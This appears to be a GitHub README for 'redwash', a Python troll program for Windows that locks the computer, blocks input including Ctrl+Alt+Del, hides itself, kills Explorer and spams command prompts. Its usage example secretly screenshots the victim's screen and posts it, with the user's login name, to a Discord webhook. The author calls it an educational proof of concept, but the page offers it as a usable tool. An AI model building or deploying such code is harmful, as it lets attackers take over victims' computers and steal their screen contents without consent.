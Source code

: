 # redwash
Created in December 2021 -- Last Modified 12/15/2021

A Python (for Windows) troll script that locks the user's computer and jumpscares them. I made this as a proof-of-concept that Windows gives executables an unusual amount of freedom over the device and is pretty insecure.
This program __does not require UAC (Run as administrator)__.

# ⚠️ This project is shown for educational purposes only. I am not liable for malicious use of this code.

Has various optional features:
* Hide itself when run
* Block user input (including Ctrl+Alt+Del)
* Minimize all other running applications
* Spam open command prompts
* Kill Windows Explorer
* Execute other code during runtime (upload screenshot etc.)

![image](redwashed_pc.png)

## Example Usage
```python
""" redwash code implementation goes here... """

def otherCode():
    # This is an example of some code you can execute in the background when redwash is running.
    # In this example, we take a screenshot of the user's computer and upload it to a discord webhook.

    # Take a screenshot of the PC
    screenshot = ImageGrab.grab()
    buffered = BytesIO()
    screenshot.save(buffered, format="PNG")

    # Your Discord webhook URL
    webhook_url = 'your_webhook_url'

    # Prepare the payload
    files = {'file': ('screenshot.png', buffered.getvalue(), 'image/png')}
    data = {'payload_json': dumps({"content": getlogin() + " just executed the script!", "username": "redwash", "avatar_url": "https://cdn.discordapp.com/attachments/1193058123733282998/1193058403862454282/terxture.png?ex=65ab5539&is=6598e039&hm=05040b88e1d2b6500f983e13bfd262ffee851d8c973d5ff4eb1e8016ea396e6a&"})}

    # POST request to the Discord webhook
    res = post(webhook_url, files=files, data=data)

if __name__ == "__main__":
    redwash(True, True, True, True, True, False, otherCode)
```
